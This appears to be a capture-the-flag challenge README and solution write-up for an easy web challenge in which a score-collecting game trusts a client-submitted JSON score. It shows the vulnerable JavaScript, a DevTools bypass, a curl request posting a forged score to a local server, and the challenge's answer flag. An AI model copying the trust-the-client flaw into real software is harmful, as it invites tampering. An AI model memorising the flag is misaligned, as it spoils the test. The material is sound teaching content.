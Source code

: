 # Stargazers

#### Category: Web Exploitation

#### Difficulty: Easy

#### Description: Catching stars is incredible.  All you need to do is collect seven of them, and I will give you the reward.

#### Preview:

![image](https://github.com/user-attachments/assets/a59a2bff-7c28-4829-a11f-01bbd2bb1c1b)

## Set Up & Installation

Ensure that docker is installed in your virtual machine before the set up process.

#### [1] Download challenge files
Ensure to download the challenge file `Challenge.zip`

#### [2] Build challenge Docker image 
`sudo docker build -t chall .`

#### [3] Run the image inside a container
`sudo docker run -d chall`

#### [4] Access challenge website
Access to `http://localhost:8080`

## Solution
<details>

The web challenge needs the user to gather seven stars in order to earn the flag, which they may achieve by just clicking them.  However, there is a catch: if the score hits 6, the star will avoid the cursor and prevent the user from clicking it. We should examine the frontend source code to gather additional insights.

![image](https://github.com/user-attachments/assets/90a05488-0ca4-499a-bd36-6bb68825f8f4)

### Source Code (JS)

The 'unclickable' class preventing the object from being clicked when the score reaches to 6.

```javascript
if (score === 6) {
    object.classList.add('unclickable');
    object.style.backgroundImage = `url('/static/star.png')`; 
    moveAwayFromCursor(object);
}
```

Server accepts JSON data as score directly from the client side without proper validation.

```javascript
fetch('/victory', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/json',
  },
    body: JSON.stringify({ score: score }),
  })
  .then(response => response.json())
  .then(data => {
      messageBox.textContent = data.message;
    
    if (data.message.includes("ICTF25{")) {
      messageBox.textContent = "Congrats! Here's Your Flag: " + data.message;
  }
})
.catch(error => {
  console.error('Error:', error);
  messageBox.textContent = 'Error submitting score.';
});
```

To solve this challenge, there's two solution:

### Method 1
Removing the 'unclickable' class using DevTools.

`document.querySelector('.unclickable').classList.remove('unclickable');`

### Method 2
Sending the score as JSON directly to server side.

`curl -X POST http://localhost:5000/victory -H 'Content-Type: application/json' -d '{"score":7}'`

We will obtain the flag by using either of these solutions.

<br>

![image](https://github.com/user-attachments/assets/e95af152-47dd-4947-be97-00dc9d27ac8b)

### Flag
> ICTF25{0e9ce052105ac660739950879a243734615e41baca30fa2892646f3bc9307c8e}

</details>
